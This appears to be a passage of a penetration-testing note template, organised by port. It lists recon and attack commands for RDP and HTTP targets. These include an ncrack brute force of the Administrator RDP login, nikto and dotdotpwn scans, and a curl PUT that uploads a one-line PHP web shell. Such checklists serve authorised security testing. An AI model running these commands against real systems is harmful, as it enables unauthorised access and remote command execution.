 ### Port 3389 - Remote desktop

Test logging in to see what OS is running

```
rdesktop -u guest -p guest INSERTIPADDRESS -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```


### Port 80

- Server:
- Scripting language:
- Apache Modules:
- Domain-name address:

cURL Header:

```
INSERTCURLHEADER
```

- Web application
- Name:
- Version:

```
# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check if it is possible to upload using put
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix
```


#### Nikto scan

```
INSERTNIKTOSCAN
```
